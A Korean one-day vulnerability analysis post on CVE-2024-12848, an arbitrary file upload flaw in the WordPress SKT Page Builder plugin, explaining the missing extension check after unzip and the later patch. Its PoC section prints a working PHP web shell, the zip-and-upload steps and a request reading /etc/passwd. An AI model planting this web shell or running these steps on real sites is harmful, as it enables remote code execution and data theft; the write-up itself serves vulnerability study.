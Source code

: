 ```yaml
---
title: "[CVE-2024-12848] 취약점 분석 보고서"
description: "WordPress 플러그인 SKT Page Builder의 4.7 버전 이하에서 발견된 임의 파일 업로드 취약점"
author: dottak
date: 2025-01-13 15:24:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, CVE, CVE-2024-12848, File Upload]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## 📌 Analysis

### 1. 개요

`CVE-2024-12848` 취약점은 WordPress 플러그인 SKT Page Builder의 4.7 버전 이하에서 발견된 임의 파일 업로드 취약점입니다. 이 취약점은 SKT Page Builder 플러그인 대시보드의 'Manage Libraries' 메뉴에서 라이브러리 업로드 시 발생합니다.

취약점은 파일 업로드 처리 중 `addLibraryByArchive` 함수가 파일 확장자 필터링을 제대로 수행하지 않아 발생했습니다. 이로 인해 구독자(Subscriber) 이상의 권한을 가진 인증된 사용자가 웹 쉘과 같은 악성 파일을 업로드하여 원격 코드 실행을 수행할 수 있습니다.

### 2. 취약점 분석

취약점이 트리거되는 페이지는 SKT Builder 플러그인 대시보드의 ‘Manage Libraries’ 메뉴(`/wp-admin/admin.php?page=sktbuilder-manage-libs`) 입니다.

![image](assets/posts/one-day/2025-01-13/image001.png)

해당 메뉴에서 ‘Upload a SKT Builder library’를 선택하고 ‘Add Library’ 버튼을 클릭하여 파일을 업로드하면 `/wp-content/plugins/skt-builder.4.7/sktbuilder.php` 파일 내 `Sktbuilder` 클래스의 `addNewLib` 함수가 호출됩니다. 

이후 해당 함수는 파일 업로드 처리를 위해 요청 받은 파일 데이터 `$_FILES['lib_file']` 를 함수 `addLibraryByArchive` 의 인자로 전달하게 됩니다.

![image](assets/posts/one-day/2025-01-13/image002.png)

이어서 함수 `addLibraryByArchive` 는 전달받은 파일 데이터 `$_FILES['lib_file']` 의 파일 확장자가 압축 파일(`application/zip`)인지 필터링을 수행하고 있습니다.

이후 해당 압축 파일을 `unzip_file` 함수를 이용하여 `$upload_dir` 경로에 압축 해제를 수행하고 있습니다. 이때, 압축 해제된 파일에 대한 파일 확장자 필터링이 존재하지 않아 압축 파일 내부에 PHP 웹 쉘과 같은 악성 파일을 포함시켜 업로드가 가능합니다. 

![image](assets/posts/one-day/2025-01-13/image003.png)

## 📌 PoC

### 1. 웹 쉘(WebShell) 준비

아래의 코드를 가지는 PHP 웹 쉘 파일(`webshell.php`)을 생성합니다.

```php
<?php
    if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
    }
?>
```

![image](assets/posts/one-day/2025-01-13/image004.png)

### 2. 웹 쉘(WebShell) 압축 하기

이후 생성한 PHP 파일을 압축하여 ZIP 파일로 만듭니다.

```bash
zip webshell.zip webshell.php # 파일 압축
zip -sf webshell.zip # 압축된 파일 확인
```

![image](assets/posts/one-day/2025-01-13/image005.png)

### 3. 웹 쉘 업로드

SKT Builder 플러그인 대시보드 ‘Manage Libraries’ 메뉴(`/wp-admin/admin.php?page=sktbuilder-manage-libs`)로 이동한 뒤 아래와 같이 압축한 웹 쉘 파일(`webshell.zip`)을 업로드합니다.

![image](assets/posts/one-day/2025-01-13/image006.png)

그럼 HTTP 요청 패킷이 아래와 같이 전송됩니다.

![image](assets/posts/one-day/2025-01-13/image007.png)

### 4. 웹 쉘 확인

이후 SKT Builder 플러그인의 업로드 디렉터리(`/wp-content/uploads/sktbuilder/`)를 보면 아래와 같이 웹 쉘이 정상적으로 압축 해제되어 있는 것을 확인할 수 있습니다.

![image](assets/posts/one-day/2025-01-13/image008.png)

그 다음 브라우저를 통해 웹 쉘이 업로드된 경로를 요청하면 URL 파라미터 `cmd` 로 전달된 데이터가 시스템 명령어로 전달되어 실행되는 것을 확인하실 수 있습니다.

```bash
/wp-content/uploads/sktbuilder/webshell.php?cmd=cat+/etc/passwd
```

![image](assets/posts/one-day/2025-01-13/image009.png)

## 📌 패치 확인

패치된 버전에서는 압축 파일을 해제한 다음 압축 해제된 파일들의 확장자를 검사하여 `.json` 확장자를 가진 파일만 업로드되도록 제한하고 있습니다.

> https://plugins.trac.wordpress.org/changeset/3213786/skt-builder/trunk/sktbuilder.php#file0
> 

![image](assets/posts/one-day/2025-01-13/image010.png)